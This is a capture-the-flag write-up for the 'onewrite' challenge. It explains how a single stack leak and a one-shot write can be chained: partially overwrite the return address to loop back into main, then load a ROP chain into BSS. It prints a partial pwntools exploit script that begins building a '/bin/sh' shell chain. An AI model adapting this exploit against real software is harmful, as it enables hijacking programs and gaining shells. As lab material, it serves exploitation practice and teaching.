The program can leak a **stack** or **function** pointer for us once. Then, it will call `do_overwrite` which allows us to overwrite 8 bits to arbitrary address. Since the function is statically linked, we can not overwrite *.got* table or use *one_gadget*.

Our choice is obvious: leak *stack* and overwrite *ret*. To prevent it exiting, we need to write the **ret** to **main** pointer. Because base address haven't leaked yet, we need to brute-force **main** address via changing the lower two bytes of *ret* address.

In this round, we can leak `do_leak` pointer address. This allows us to get *BSS* base address. When our leak finished, we can write **ROP** gadget to *BSS* area that will be used later. **main** function is invoked by **ret** rather than **__libc_init_main** this time. So, the program will return to **main** one more time when *ret* is executed. In next round, the *rsp* is reseted. And we need to change *ret* to **main** once again.

Repeat above until the ROP chain is fully loaded. In the last two rounds, we change *ret* to `pop rsp, ret` and 8 bits before *ret* address to *BSS* address:
```python
from pwn import *
from struct import pack
import time

i = 0
context.log_level = "ERROR"
context.timeout = 600

def exp():
    global i
    rop = ''
    i = i + 1
    p = process("onewrite")
    #p = remote("onewrite.teaser.insomnihack.ch", 1337)
    #gdb.attach(p)

    def _leak(opt):
        p.sendlineafter(">", str(opt))
        return int(p.recvline()[:-1], 16)

    def _write(addr, content):
        p.sendafter(":", str(addr) + content)

    try:
        stack_ptr = _leak(1)
        print "Stack Pointer: " + hex(stack_ptr)
        # partially overwrite the last 2 bytes
        ret_addr = stack_ptr - 0x8
        # return to main function
        p.sendafter(":", str(ret_addr) + "\xb8\x2a")
        # new stack_ptr address
        stack_ptr = stack_ptr - 0x28
        # leak function address
        base_addr = _leak(2) - 0x8a15
        bss_addr = base_addr + 0x2b3328
        main_addr = base_addr + 0x8ab8
        print "Base Address: " + hex(base_addr)
        print "BSS Address: " + hex(bss_addr)
        print "main() Address: " + hex(main_addr)

        # ROP Generated By ropper
        IMAGE_BASE_0 = base_addr
        rebase_0 = lambda x : p64(x + IMAGE_BASE_0)
        rop += rebase_0(0x00000000000460ac) # 0x00000000000460ac: pop rax; ret;
        rop += '//bin/sh'
        rop += rebase_0(0x000000000000d9f2) # 0x000000000000d9f2: pop rsi; ret;
        rop += rebase_0(0x00000000002b1120)
        rop += rebase_0(0x0000000000077901) # 0x0000000000077901: mov qword ptr [rsi], rax; ret;
```